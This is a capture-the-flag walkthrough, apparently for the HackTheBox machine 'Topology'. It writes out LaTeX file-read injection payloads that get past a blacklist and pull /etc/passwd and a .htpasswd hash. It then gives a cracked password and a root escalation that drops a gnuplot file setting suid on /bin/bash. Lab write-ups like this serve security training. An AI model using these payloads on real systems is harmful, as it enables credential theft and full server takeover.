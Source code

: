 # INITIAL ACCESS

## DISCOVERY

The initial `nmap` scan revealed ports 22 and 80 open.

![](screenshots/01-nmap-scan.png)

A subdirectory enumeration with `ffuf` revealed the subdomains `dev` and `stats`

![](screenshots/02-subdomains.png)

These subdomains were then added to `/etc/passwd` to explore these web pages.

![](screenshots/03-etc-hosts.png)

The `dev.topology.htb` website was password protected.

![](screenshots/04-dev-password-protected.png)

The `stats.topology.htb` website did not reveal any critical information.

![](screenshots/05-stats-subdomain.png)

The main website, `topology.htb` revealed potential usernames and a new subdomain: `latex.topology.htb`. This was also added to `/etc/hosts` for further exploration.

![](screenshots/06-main-website.png)

![](screenshots/07-latex-page.png)

The `latex.topology.htb` contained an input field for `latex` expressions. This could be abused to attack the server and retrieve the password for the `dev` subdomain.

![](screenshots/08-latex-landing.png)

## EXPLOIT 1 - LATEX LFI WITH FILTER BYPASS

Any values input at the form would be sent to the web server as follows:

```http
GET /equation.php?eqn=<input> HTTP/1.1
Host: latex.topology.htb
```

A simple request was captured and sent to Burp's Repeater for further analysis and fuzzing.

The following resources allowed a better understanding of `Latex` and how it can be abused.

- https://0day.work/hacking-with-latex/
- https://en.wikibooks.org/wiki/TeX

At first, it was verified that multiple commands were blacklisted, such as `\immediate`, `\input`, and `\write`. However, the command to read one line of a given file was still allowed:

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Although the command above is multi-lined, in `Latex` you can simply use one line to issue multi-lined commands. Therefore the following payload was successful.

`\newread\file\openin\file=/etc/passwd\read\file%20to\line\text{\line}\closein\file`

![](screenshots/10-latex-injection-1.png)

Furthermore, it was possible to repeat the `\read\file to\line` a few times in order to read other lines of a given file.

The screenshot below shows the same command as before but with two `\read\file to\line`, so the second line of `/etc/passwd` was provided.

![](screenshots/11-latex-injection-2.png)

This, however, was limited to only a few lines. Nonetheless, the goal was to obtain the contents of a `.htpasswd` file, which has its location defined in a `.htaccess` file in the website's root directory.

Since the password-protected web page was `dev.topology.htb`, it was safe to assume that its root directory could be at `/var/www/dev/`, which was correct.

The third line of the `.htaccess` file revealed the location of the `.htpasswd` file.

![](screenshots/12-latex-injection-3.png)

However, when attempting to read the file, there was no output.

![](screenshots/13-latex-injection-4.png)

This was because the `.htpasswd` normally contains hashes in the format `username:$apr1$71850310$gh9m4xcAn3MGxogwX/ztb.`. The characters `:` and `$` are considered "bad characters" for `Latex` and throw an error, which was not reflected in this web server.

However, it was possible to escape these characters with `\detokenize`. The following command was issued to read the contents of `.htpasswd`:

`\newread\file\openin\file=/var/www/dev/.htpasswd\read\file%20to\line\closein\file\texttt{\detokenize\expandafter{\line}}`

> Note that using `texttt` instead of `text` simply changed the font format to monospaced.

![](screenshots/15-latex-injection-6.png)

Then, the hash could be cracked with `john`, which revealed the password `calculus20`

![](screenshots/16-hash-cracked.png)

Although that password worked in the `dev` subdomain, it also worked with SSH. So that was the route followed.

![](screenshots/18-ssh-access.png)

# PRIVILEGE ESCALATION

## DISCOVERY

After getting initial access as **vdaisly**, the [pspy](https://github.com/DominicBreuker/pspy) binary was run to see if any scheduled task was happening in the background. After about a minute, it was discovered that the `gnuplot` binary was being called along with other commands.

![](screenshots/19-pspy.png)

An interesting finding was that the `/opt/gnuplot` directory was not readable but it was writable by everyone. This could be abused to inject malicious files into the folder.

![](screenshots/19-2-gnuplot-folder.png)

## EXPLOIT 2 - DIRECTORY PERMISSIONS ABUSE WITH GNUPLOT TASK

The exploit used for privilege escalation relied on two issues:

1. The `/opt/gnuplot` folder was writeable by everyone.
2. The `root` user was running `/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;` every minute.

The `find` command was being used to find **all files** with the **.plt** extension in the `/opt/gnuplot` directory and its subdirectories and then **execute** the `gnuplot` command on each of those files.

To demonstrate, a file named `evil.plt` was created in a controlled directory. The content of `evil.plt` was `` `id` ``. Which was successfully executed by `gnuplot` as shown below.

![](screenshots/20-gnuplot-injection-1.png)

So the following command was used to inject a malicious `.plt` file in the `/opt/gnuplot` directory, which would add the *suid* bit to `/bin/bash`.

``echo -e '`chmod +s /bin/bash`' > /opt/gnuplot/evil.plt ``

Then a root shell was obtained with

`/bin/bash -p`

![](screenshots/21-root.png)
